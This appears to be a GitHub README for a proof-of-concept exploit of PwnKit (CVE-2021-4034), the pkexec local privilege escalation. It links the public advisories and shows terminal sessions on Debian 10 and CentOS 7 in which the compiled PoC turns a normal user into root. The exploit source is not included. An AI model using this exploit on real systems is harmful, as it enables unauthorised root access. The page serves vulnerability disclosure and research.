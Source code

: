 ```yaml
---
repo: "https://github.com/IORoot/poc"
slug:  "/projects/poc"
date:  "2022-06-14"
title: "poc"
icon:  "c"
---
```

# CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

Verified on Debian 10 and CentOS 7.

```
user@debian:~$ grep PRETTY /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
user@debian:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
user@debian:~$ ./cve-2021-4034-poc
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
```

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```

